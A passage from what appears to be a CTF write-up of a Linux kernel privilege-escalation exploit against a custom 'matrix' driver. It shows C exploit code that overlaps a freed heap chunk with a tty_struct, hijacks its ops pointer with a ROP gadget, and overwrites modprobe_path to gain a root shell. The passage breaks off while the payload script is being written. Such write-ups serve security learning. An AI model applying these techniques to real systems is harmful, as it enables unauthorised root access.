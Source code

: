 Now allocating new `struct tty_struct`, it will overlap with `matrix2->data` because the latest freed 0x2e0-size chunk is `matrix2->data`.

Overwrite `.ops` of the new `struct tty_struct`, we can control RIP ( I will set `tty_struct->ops` = `matrix3->data` ).

```c
    ptmx_fd = open("/dev/ptmx",O_RDWR);
    if(ptmx_fd < 0)
        errExit("Open ptmx");
    logInfo("pmtx = matrix2->data");


    //Preparing payload
    int _ = open("/dev/ptmx",O_RDWR);
    if(_ < 0)
        errExit("open ptmx");
    info3.rows = 0x2e0;
    close(_);
    if(set_info(fd3,&info3))
        errExit("set_info 3");
    uint64_t chunk_addr3 = 0;
    readMATRIX64(fd3,&chunk_addr3,0x38);
    chunk_addr3 -= 0x38;
    logInfo("Chunk3 @ %p",(void *)chunk_addr3);
    uint64_t _text = ptm_unix98_ops - 0x82fb40;
    uint64_t modprobe_path = _text + 0xa51ba0;
    
    //rop
    uint64_t rop = _text+0x2dd74f; // xor eax,eax ; mov qword ptr [rdx], rcx ; ret
    writeMATRIX64(fd4,&rop,offsetof(struct tty_operations,ioctl));
    writeMATRIX64(fd1,&chunk_addr3,0x18);
```

By using `ROPgadget`, I see a useful gadget ( I don't know why `ROPgadget` is different from `gdb` :) ) :  

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/844402d0-7178-4c37-8cf2-36ecaa117cbf)
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/b0cd2c11-dc2f-4d55-8f12-e542265007c0)
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/32c349f7-07ed-4540-acf0-6cd53600d16c)


So, i will set `tty_struct->ops->ioctl` = `0xffffffff811571d9`.

Finally, using that gadget to overwrite `modprobe_path` to `/home/user/vjp` and get root shell :) :

```c
    uint64_t _text = ptm_unix98_ops - 0x82fb40;
    uint64_t modprobe_path = _text + 0xa51ba0;
    
    //rop
    uint64_t rop = _text+0x2dd74f; // xor eax,eax ; mov qword ptr [rdx], rcx ; ret
    writeMATRIX64(fd4,&rop,offsetof(struct tty_operations,ioctl));
    writeMATRIX64(fd1,&chunk_addr3,0x18);

    //Change /sbin/modprobe to /home/user/vjp
    char* inject = "/home/user/vjp";
    for(uint64_t i = 0 ; i < strlen(inject)/4+1; ++i){
        ioctl(ptmx_fd,*(uint32_t *)(inject+4*i),modprobe_path+4*i);
    }

    int vjpfd = open("/home/user/vjp",O_CREAT | O_RDWR);
    if(vjpfd < 0)
        errExit("open /home/user/vjp");
    dprintf(vjpfd,
        "#!/bin/sh\n"
```